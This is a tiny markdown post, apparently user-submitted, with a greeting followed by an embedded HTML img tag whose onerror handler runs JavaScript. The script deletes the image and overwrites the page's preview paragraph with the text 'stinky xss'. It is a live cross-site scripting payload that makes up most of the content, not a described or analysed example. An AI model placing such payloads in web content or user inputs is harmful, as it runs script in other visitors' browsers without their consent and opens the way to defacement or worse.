 ## hello everyone!!!

im <img src='x' id="ttttt" onerror="document.getElementById('ttttt').remove(); document.getElementsByClassName('preview')[0].getElementsByTagName('p')[0].innerHTML = 'stinky xss'">